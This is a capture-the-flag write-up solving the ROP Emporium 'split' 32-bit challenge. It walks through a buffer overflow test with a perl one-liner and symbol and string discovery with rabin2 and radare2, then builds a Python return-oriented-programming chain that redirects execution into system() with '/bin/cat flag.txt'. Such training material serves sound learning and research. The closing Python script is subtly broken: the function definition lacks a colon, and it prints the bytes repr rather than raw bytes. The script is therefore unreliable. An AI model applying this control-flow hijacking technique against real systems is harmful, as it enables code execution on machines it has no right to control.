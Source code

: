 # split
The challenge is available [here](https://ropemporium.com/challenge/split.html).

## Black-Box Test
Just like in the previous challenge, let's start by running the `split32` program with simple input, such as `ABCD`.

```
./split32
```
![](./0.png)

Similarly, the return value we want to overwrite is located at the same index as in the previous challenge.

```
perl -e 'print "A"x44 . "\xfe\xbe\xad\xde"' | ./split32
```
![](./1.png)
```
sudo dmesg -k | tail -2
```
![](./2.png)

## Finding important details
As you might have guessed, this challenge also has NX protection enabled.

```
rabin2 -I split32 | grep nx
```
![](./3.png)

Therefore, we will proceed as in the previous challenge and try to find a function that can help us.

```
rabin2 -qs split32 | grep -ve 'imp' -e ' 0 ' -e '_'
```
![](./4.png)

In fact, the command displays symbols, some of which may be functions, but not only. At this stage, we've found two interesting symbols: `usefulFunction` and `usefulString`. From their names, we can infer what they contain. Let's first check `usefulString`. If it is indeed a string, we can also find it by searching for interesting strings and identify it by its address.

```
rabin2 -z split32
```
![](./5.png)

As can be seen, the string called `usefulString` is located at address `0x0804a030`, and its content is `"/bin/cat flag.txt"`.

If we can send this string to the `system()` function, we win. Keeping that in mind, let's check the `usefulFunction`.

```
r2 split32
```
```
aa
```
```
afl
```
![](./6.png)
```
pdf @ sym.usefulFunction
```
![](./7.png)

It can be seen that the function as a whole won't help us, but it contains a call to the `system()` function, which we do want. Additionally, the helper function pushes the address of the string `"/bin/ls"` onto the stack. We will aim to create a similar state on the stack, where the address of the `usefulString` is at the top of the stack when the call to `system()` is made.

## Solution
Let's summarize in a tables the details we discovered from the research that are important for the ROP Chain.

| String              | Address    |
|---------------------|------------|
| "/bin/cat flag.txt" | 0x0804a030 |


| Code        | Address    |
|-------------|------------|
| call system | 0x0804861a |

* Note: This is not the address of the `system()` function, but rather the command that calls it.

Now we can build the ROP Chain. First, it will consist of 44 garbage characters. Immediately after that, the **address of the command that calls** the `system()` function will appear. As mentioned, the `system()` function expects the call to be made when the address of the string it will operate on is already at the top of the stack. When the program uses the malicious return value, the top of the stack will increase by 4 bytes. Therefore, immediately after the malicious return value, we will add the address of the string `"/bin/cat flag.txt"`.

```python
# cracker.py
import struct

def little_endian(number)
    """
    : The function accepts a number not
    : exceeding 4 bytes in size and returns it
    : as a string of hexadecimal characters in : little-endian format.
    """
    return struct.pack("<I", number)

fill_buffer              = b"X"*44
call_system_code_address = 0x0804861a
cat_string_address       = 0x0804a030

ROP_Chain =\
    fill_buffer +\
    little_endian(call_system_code_address) +\
    little_endian(cat_string_address)

print(ROP_Chain)
```
